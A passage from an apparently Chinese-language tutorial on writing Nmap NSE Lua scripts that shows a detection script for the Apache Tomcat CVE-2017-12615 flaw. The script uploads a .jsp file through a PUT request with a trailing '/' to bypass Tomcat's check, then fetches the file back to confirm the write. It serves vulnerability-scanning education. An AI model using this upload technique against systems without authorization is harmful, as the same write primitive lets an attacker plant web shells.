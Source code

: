 在action函数中，首先生成一个随机的文件名，然后发送PUT请求，判断响应码是否是201。注意，发送PUT请求的时候，文件扩展名后门必须带”/”，是为了绕过tomcat的检测。

执行结果：

![2019-04-24-10-18-23](https://images.payloads.online/71a7cff2-4f5f-11ec-8fc2-00d861bf4abb.png)

使用浏览器访问：

![2019-04-24-10-18-33](https://images.payloads.online/71ec6734-4f5f-11ec-b61f-00d861bf4abb.png)

发现CVE-2017-12615这个字符，证明该漏洞的确存在。

## 0x07 响应内容匹配


当我们需要对HTTP响应内容进行操作的时候，需要学习一些字符串操作函数、HTTP包内的函数。

- response_contains函数，用于在响应表中匹配字符串，参数如下：
- response : 响应表，可以是（http.get、http.post、http. pipeline_go、http.head等函数的返回值）
- pattern : 字符串匹配模式，可参考lua手册
- case_sensitive : 是否区分大小写，默认值为false，不区分

返回值：
- match_state : 匹配成功为true，匹配失败为false
- matchs : 返回一个匹配结果表，前提是match_state为true

了解了这个函数后，我们可以继续将CVE-2017-12615漏洞检测脚本进一步的优化，让脚本判断写入了jsp文件后，判断是否是我们写入的字符串。这样能够使检测脚本的准确度大大提高，下面请看我在action函数中写入的新代码：

```lua
……
action = function(host,port)
	local shell_name = string.format("%sCVE-2017-12615-CHECK-%d.jsp","/",math.random(9999))
	local status = stdnse.output_table()
	local put_rsp = http.put(host,port,shell_name.."/",nil,"CVE-2017-12615")
	if(put_rsp.status == 201)then
		status.shell_name = shell_name
		local response = http.get(host,port,shell_name)
		if(response and http.response_contains(response,"CVE%-2017%-12615") )then
			return status
		end
		return false
	end
	return false
end
……
```

脚本执行结果与上一节中的内容相同，只是多了一次GET请求，为了让读者真正理解这个脚本的执行过程，下面对比一下wireshark流量：

- 优化前：

![2019-04-24-10-19-52](https://images.payloads.online/7227a40c-4f5f-11ec-a9f9-00d861bf4abb.png)

首先脚本直接向80端口发送了一个PUT请求，然后服务器响应405，漏洞利用失败。
